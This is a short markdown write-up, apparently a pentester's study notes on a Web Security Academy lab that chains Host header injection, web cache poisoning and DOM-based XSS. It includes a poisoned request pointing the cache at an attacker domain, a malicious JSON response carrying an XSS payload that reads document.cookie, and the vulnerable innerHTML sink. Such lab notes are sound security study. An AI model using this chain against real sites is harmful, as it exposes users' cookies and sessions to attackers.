 
# Vulnerability chain involving Web Cache Poisoning

## Host Header Injection + Web Cache Poisoning + DOM XSS

Many websites use JavaScript to fetch and process additional data from the back-end. If a script handles data from the server in an unsafe way, this can potentially lead to all kinds of [DOM-based vulnerabilities](DOM-based%20vulnerabilities.md).

If the website then passes the value of this property into a **sink** that supports dynamic code execution, the payload would be executed in the context of the victim's browser session. If you use web cache poisoning to make a website load malicious JSON data from your server, you may need to grant the website access to the JSON using [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md).

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *

{"country": "<img src=1 onerror=alert(document.cookie)>"}
```

Discovered a [Host Header](Host%20Header%20attacks.md) injection causing the server to cache a different host:
```http
GET /product?productId=1&foo=c HTTP/1.1
Host: 0a2300630300763180745d5f008e00f5.web-security-academy.net
X-Forwarded-Host: 0xbro.com

HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script>
	data = {
		"host":"0xbro.com",
		"path":"/product",
	}
</script>
...
<script>
	initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

`initGeoLocate()` contains a sink whose data can be controlled using the cache poisoning:
```js
function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country; // {"country": "United Kingdom"}
            geoLocateContent.appendChild(div)
        });
}
```